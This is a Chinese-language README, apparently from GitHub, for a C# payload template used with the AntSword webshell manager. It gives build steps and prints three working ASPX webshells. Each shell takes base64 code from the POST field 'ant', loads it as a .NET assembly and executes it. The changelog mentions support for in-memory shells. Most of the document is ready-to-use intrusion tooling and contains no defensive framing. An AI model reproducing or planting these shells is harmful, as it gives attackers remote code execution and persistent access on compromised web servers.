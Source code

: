 # AntSword-Csharp-Template v1.1

中国蚁剑Csharp一句话Payload

编译环境：.net 2.0

适用范围：.net 2.0 及以上

## 编译

在build.py中替换你的csc路径后运行，即可在`./dist`目录下自动生成代码模板。

```
python3 build.py
```

编译完成后将`./dist/`目录下所有文件拷贝至`antSword-master/source/core/aspxcsharp/template/`下即可

## Shell

### shell.aspx

```
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(this);
    }
%>
```

为了兼容各种情况下的内存马，Equals中的入口参数可以为System.Web.UI.Page对象，或者System.Web.UI.Page.Context对象，或者包含Request与Response对象的数组。

即

```
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(Context);
    }
%>
```

或者

```
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(new object[] { Request, Response });
    }
%>
```



## 更新日志

### v 1.1

1. 兼容内存马
2. Payload类名不再固定，采用动态获取方式

### v 1.0

1. release